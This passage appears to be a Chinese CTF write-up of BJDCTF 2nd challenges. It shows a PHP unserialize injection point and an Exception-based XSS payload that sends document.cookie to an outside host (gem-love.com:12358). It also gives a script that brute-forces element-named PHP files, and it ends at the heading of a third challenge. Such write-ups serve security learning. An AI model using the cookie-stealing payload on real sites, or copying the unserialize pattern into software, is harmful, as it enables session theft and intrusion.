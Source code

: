 ![](https://img-blog.csdnimg.cn/20200324171353598.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
## [BJDCTF 2nd]xss之光
拿到题开头gungungun就不会了，没想到是git泄露
![](https://img-blog.csdnimg.cn/20200324175207197.png)
拿到源码：
```php
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);
```
这是利用php的原生类进行xss payload，用的是Exception反序列化
由于师傅说只要xss执行window.open()就能把flag带出来，直接利用了师傅的代码
```php
<?php
$y1ng = new Exception('"<script>window.open(\'http://gem-love.com:12358/?\'+document.cookie);</script>');
echo urlencode(serialize($y1ng));
```
运行得到一串url编码的字符串，传入即可在cookie得到flag
![](https://img-blog.csdnimg.cn/20200324182131881.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
## [BJDCTF 2nd]elementmaster
得到一张图片，查看源代码得到信息
![](https://img-blog.csdnimg.cn/2020032418252523.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
```javascript
id=506F2E，16进制解码为Po.
id=706870，16进制解码为php
```
访问得到一个点，那么猜测元素周期表的所有元素都存在
![](https://img-blog.csdnimg.cn/20200324182819236.png)
师傅脚本如下：
```python
import os
import requests as req
elements = ('H', 'He', 'Li', 'Be', 'B', 'C', 'N', 'O', 'F', 'Ne', 'Na', 'Mg', 'Al', 'Si', 'P', 'S', 'Cl', 'Ar',
                  'K', 'Ca', 'Sc', 'Ti', 'V', 'Cr', 'Mn', 'Fe', 'Co', 'Ni', 'Cu', 'Zn', 'Ga', 'Ge', 'As', 'Se', 'Br', 
                  'Kr', 'Rb', 'Sr', 'Y', 'Zr', 'Nb', 'Mo', 'Te', 'Ru', 'Rh', 'Pd', 'Ag', 'Cd', 'In', 'Sn', 'Sb', 'Te', 
                  'I', 'Xe', 'Cs', 'Ba', 'La', 'Ce', 'Pr', 'Nd', 'Pm', 'Sm', 'Eu', 'Gd', 'Tb', 'Dy', 'Ho', 'Er', 'Tm', 
                  'Yb', 'Lu', 'Hf', 'Ta', 'W', 'Re', 'Os', 'Ir', 'Pt', 'Au', 'Hg', 'Tl', 'Pb', 'Bi', 'Po', 'At', 'Rn', 
                  'Fr', 'Ra', 'Ac', 'Th', 'Pa', 'U', 'Np', 'Pu', 'Am', 'Cm', 'Bk', 'Cf', 'Es', 'Fm','Md', 'No', 'Lr',
                  'Rf', 'Db', 'Sg', 'Bh', 'Hs', 'Mt', 'Ds', 'Rg', 'Cn', 'Nh', 'Fl', 'Mc', 'Lv', 'Ts', 'Og', 'Uue')
for symbol in elements:
    link = "http://2c09f75d-30ec-4811-9ae7-5645bc809efa.node3.buuoj.cn/" + symbol + ".php"
    response = req.get(link)
    if response.status_code == 200:
        print(response.text, end='')
    else:
        continue
```
得到And_th3_3LemEnt5_w1LL_De5tR0y_y0u.php，访问即可得到flag
![](https://img-blog.csdnimg.cn/20200324183332125.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
## [BJDCTF 2nd]文件探测